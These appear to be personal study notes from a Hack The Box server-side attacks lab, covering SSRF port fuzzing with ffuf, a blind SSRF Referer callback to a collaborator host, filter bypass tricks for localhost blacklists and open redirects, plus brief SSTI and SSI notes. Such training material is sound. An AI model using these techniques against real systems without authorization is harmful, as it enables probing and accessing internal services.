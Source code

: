 ![[Server_Side_Attacks_Module_Cheat_Sheet.pdf]]

# SSRF
## Port Discovery
```shell-session
alakin2504@htb[/htb]$ ffuf -w ./ports.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://127.0.0.1:FUZZ/&date=2024-01-01" -fr "Failed to connect to"

<SNIP>

[Status: 200, Size: 45, Words: 7, Lines: 1, Duration: 0ms]
    * FUZZ: 3306
[Status: 200, Size: 8285, Words: 2151, Lines: 158, Duration: 338ms]
    * FUZZ: 80
```

## URL Fuzzing
example: 192.168.0.FUZZ

## Blind SSRF in Referer Header
Just use Referer: https://r80jbhuq4svofeubo41rcv8hq8wzkp8e.oastify.com/

## Blacklisted SSRF WAF
- Use an alternative IP representation of `127.0.0.1`, such as `2130706433`, `017700000001`, or `127.1`.
- Register your own domain name that resolves to `127.0.0.1`. You can use `spoofed.burpcollaborator.net` for this purpose.
- Obfuscate blocked strings using URL encoding or case variation.
- Provide a URL that you control, which redirects to the target URL. Try using different redirect codes, as well as different protocols for the target URL. For example, switching from an `http:` to `https:` URL during the redirect has been shown to bypass some anti-SSRF filters.
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/README.md

#### Case Bypass![[Pasted image 20250410172855.png]]
## Redirection
Some applications perform local redirection instead of direct nagivation

We can exploit this to perform SSRF. Given a page has this redirection:
```
/product/nextProduct?path=...
```
And an API that fetches local API

```
product?....
```

https://portswigger.net/web-security/ssrf/lab-ssrf-filter-bypass-via-open-redirection

# SSTI
[[SSTI_ALL]]
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md

# SSI
Server-Side Includes (SSI) is a technology web applications use to create dynamic content on HTML pages. SSI is supported by many popular web servers such as [Apache](https://httpd.apache.org/docs/current/howto/ssi.html) and [IIS](https://learn.microsoft.com/en-us/iis/configuration/system.webserver/serversideinclude). The use of SSI can often be inferred from the file extension. Typical file extensions include `.shtml`, `.shtm`, and `.stm`. However, web servers can be configured to support SSI directives in arbitrary file extensions. As such, we cannot conclusively conclude whether SSI is used only from the file extension.
